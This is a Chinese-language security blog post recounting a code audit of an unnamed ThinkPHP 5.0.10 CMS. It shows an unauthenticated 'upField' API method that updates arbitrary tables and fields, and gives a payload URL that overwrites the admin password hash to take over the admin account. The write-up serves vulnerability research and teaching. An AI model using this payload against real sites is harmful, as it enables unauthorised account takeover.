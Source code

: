 #  某CMS权限绕过漏洞（0Day）   
 Jie安全   2024-11-23 05:01  
  
**免责申明**  
  
本文章仅用于信息安全防御技术分享，因用于其他用途而产生不良后果,作者不承担任何法律责任，请严格遵循中华人民共和国相关法律法规，禁止做一切违法犯罪行为。  
  
  
  
**一、前言**  
  
          
不会存在相关的POC，要POC的师傅可以划走啦，这个文章记录一下自己在给xx做代码审计的一次权限绕过，大致源码方式是（得到目标->提取指纹->github搜索->拿到源码），这里可实现前台rce效果，着重讲解如何进行权限绕过的审计。  
  
**二、审计过程**  
  
    在拿到源码之后，先来查看文件目录。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ZRKuxIKRyhV17MEVSlFD9ZIuVvXbVoks7HDePECibYfu8FFFibnvDSCG8HltE3j8VjjRUjiaURGaMBU9aOyI411BQ/640?wx_fmt=png&from=appmsg "")  
  
可以看到为经典的TP开发框架，这里让其页面报错发现为TP5.0.10。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ZRKuxIKRyhV17MEVSlFD9ZIuVvXbVoksHbJNBDY98iaJWicX19XGCSlKzvHOZ6XnOOsjoY6YplTmoicwFVaEmQPIQ/640?wx_fmt=png&from=appmsg "")  
  
使用工具进行扫描之后未发现漏洞，开始审计，这里我们先看Application下的Controller层。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ZRKuxIKRyhV17MEVSlFD9ZIuVvXbVoksFrpRCZpAIiajc1QlrupAK6C9jNOOricdDNS2VTgiauYOW2XOGQN21tp5w/640?wx_fmt=png&from=appmsg "")  
  
admin目录就没必要看了，直接看前台可以访问到的即可，api目录，查看相关代码。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ZRKuxIKRyhV17MEVSlFD9ZIuVvXbVokss6ZAb2H1gN9mGnrnNdP4bYeWwkuJgOKEMYPrfKlfPmFRTUkiamJ75Eg/640?wx_fmt=png&from=appmsg "")  
  
这里可以看到存在一个方法upField方法，代码如下:  
```
    public function upField(){
        $table=input('table');//表名
        $id_name=input('id_name');//条件字段
        $id_value=input('id_value');//条件值
        $field=input('field');//修改的字段
        $field_value=input('field_value');//修改的值
        if ($field_value=='false'){
            $field_value=2;
        }
        if (empty($table)||empty($id_name)||empty($id_value)||empty($field)||$field_value===false){
            return ajaxReturn(0,'参数不足');
        }
        $where[$id_name]=['eq',$id_value];
        $status=Db::name($table)->where($where)->setField($field,$field_value);
        if ($status){
            return ajaxReturn(200,'操作成功');
        }else{
            return ajaxReturn(0,'操作失败');
        }
    }
```  
  
可以看到最终调用了方法setFiled。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ZRKuxIKRyhV17MEVSlFD9ZIuVvXbVoks6dTD1QpxfeV5XAnIxh7dmDjb1Judlic74ic9IiaW9yAOd5AETiczuxyGicg/640?wx_fmt=png&from=appmsg "")  
  
跟入发现调用的是update更新方法，并且这里对更新的表table也是可控的，内容也是可控的，所以第一时间想到的就是把管理员密码通过方法给更新掉。  
  
先来看看数据库的信息。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ZRKuxIKRyhV17MEVSlFD9ZIuVvXbVoksib3q5vaqRoQZEspicN3LguYrB7QRdQpkqAONzQJkWzTgaedX2xpTLFyw/640?wx_fmt=png&from=appmsg "")  
  
可以看到存储在了ybk_admin_user表当中，password其实可以看出来是md5加密的，保险起见从代码找下password的存储方式。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ZRKuxIKRyhV17MEVSlFD9ZIuVvXbVoksyibQ3JfCPwYk3BiaHsxjaUNw0hSy0iapJJQ4ZKtxVUSSTiaiaDRThvDWH6Q/640?wx_fmt=png&from=appmsg "")  
  
可以看到用户输入的password经过md5加密与数据库当中取出来的password进行比较，说明确实是md5加密。  
  
**三、漏洞验证**  
  
****  
访问路由http://127.0.0.1/index.php/api/Api/upField  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ZRKuxIKRyhV17MEVSlFD9ZIuVvXbVoksjnGyXHcbadU3QN6WWzpAgmvRTn2UFbEaRAIyoBQoce3ic0AwkFot6JA/640?wx_fmt=png&from=appmsg "")  
  
可以看到参数不足，开始补充参数，再经过慢慢调试之后如下payload：  
```
http://127.0.0.1/index.php/api/Api/upField?table=admin_user&id_name=user_id&id_value=1&field=password&field_value=1
```  
  
这里表示操作admin_user表，并且字段为user_id值为1其中的password字段的值为1。  
  
查看一下数据库的值。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ZRKuxIKRyhV17MEVSlFD9ZIuVvXbVoksNsibXazKLMbF8kG2bO0BdERSPhcSta87aS6MpibOrA7ibQcF6Wmq4A7RA/640?wx_fmt=png&from=appmsg "")  
  
可以看到成果更改了，因为登陆验证为md5加密比较，所以我们把我们想要更改的密码进行md5加密之后更改即可，这里以123为例。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ZRKuxIKRyhV17MEVSlFD9ZIuVvXbVoksHGVV44on1RX4GA4FKb4HNzh3dtR6icqByueu2w2EhrNnODkawVtA3XA/640?wx_fmt=png&from=appmsg "")  
  
进行修改：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ZRKuxIKRyhV17MEVSlFD9ZIuVvXbVokss4b2U6lNyFn8JLtWk6Qm24mnwicibkpMQ80WR2V3oE4Hib9dLoeCGxpIw/640?wx_fmt=png&from=appmsg "")  
  
查看数据库：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ZRKuxIKRyhV17MEVSlFD9ZIuVvXbVoksIxFaRkJbJXt7O0Zx10B1dNdmLPMDZJfEr1NayW6icAVVvgAtFDANPZg/640?wx_fmt=png&from=appmsg "")  
  
尝试登陆。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ZRKuxIKRyhV17MEVSlFD9ZIuVvXbVoksOXoKaER5QV356ibypT1FdibSTTAAFWxoSibsWKlso7qgtIhXAEc1vq7Lw/640?wx_fmt=png&from=appmsg "")  
  
**四、完结**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/ZRKuxIKRyhXhuxbCGecu4ibia3kSXD8ePQHrSvPSNtC7PmjzQwR88Hu0LpuXdQzamKBCPAXX82anLS8f0FF3LzzQ/640?wx_fmt=jpeg "")  
  
****  
